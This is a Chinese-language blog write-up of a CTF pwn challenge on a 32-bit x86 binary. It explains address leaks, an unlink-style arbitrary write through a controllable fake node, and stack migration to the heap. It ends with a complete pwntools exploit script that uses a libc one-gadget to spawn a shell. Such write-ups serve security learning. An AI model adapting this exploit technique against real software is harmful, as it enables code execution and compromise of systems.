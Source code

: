 ```yaml
---
title: 'x86_stack_migration:Hack'
date: 2018-11-16 19:25:08
tags:
layout: default
---
```

基础太差...
tcl
<!---more-->

# Hack
不知道啥比赛的题...上课上完有个朋友给我发了题...初看挺简单...后来看了群里师傅的思路才做出来..
曲线救国曲线救国。。。
[附件][1]
# Analysis

X86的程序题目意图很明显考察利用思路...
```arm
➜  Desktop checksec hack
[*] '/home/n132/Desktop/hack'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
直接允许泄露栈地址，堆地址，libc基址
最后的部分考察利用
```arm
  P1 = fake_node->pre;
  P2 = fake_node->next;
  P1->next = P2;
  P2->pre = P1;
```
其中fake_node完全可控

# 思路
* 可以设置p1,p2然后程序就会往p1+8写p2和p2+12写p1
* 那么问题来了假设我们要控制执行流那么我们一定要有个能执行的address
* 因为可执行不可写那么显然那个address是填写在我们之前控制的堆上..
* 所以我们最后设置p1,p2的目的是让程序运行到堆上去...
* 今天的新发现...32位程序main在ret前是.（自己随便编了一个发现也是...之前都没注意到，tcltcl）
```arm
 8048702:	c9                   	leave  
 8048703:	8d 61 fc             	lea    -0x4(%ecx),%esp
 8048706:	c3                   	ret   
```
* 然后我们就可以将stack migrate到heap上跳gadget...

# 真是TCLTCL
EXP
```python
from pwn import *
#context.log_level = 'debug'
p = process("./hack")
elf = ELF("./hack")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")


p.recvuntil("input address: \n")
p.sendline("134520860")
p.recvuntil("0x")
addr = int(p.recvuntil("\n",drop=True),16)
print hex(addr)


libc_base = addr - libc.symbols['puts']

environ_addr = libc_base+libc.symbols['_environ']

p.recvuntil("Second chance: \n")
p.sendline(str(environ_addr))
p.recvuntil("0x")
stack_addr = int(p.recvuntil("\n",drop=True),16)-(0xffffdef0-4-0xfffdd000)


ret_addr = stack_addr+0xffffd05c-0x804b000
p.recvuntil("node is ")
heap=int(p.readuntil(",")[:-1],16)-0x20
log.info(hex(libc_base))
log.info(hex(stack_addr))
log.info(hex(heap))
#gdb.attach(p,'b *0x8048706')
libc.address=libc_base
payload  = p32(0x3ac69+libc_base)+p32(0)+p32(0xffffd054-12+stack_addr-0xfffdc220)+p32(heap+0x24)
p.sendafter("now: ",payload)
p.interactive("nier>>>>")
```



[1]:https://github.com/n132/Watermalon/tree/master/UNKNOW/hack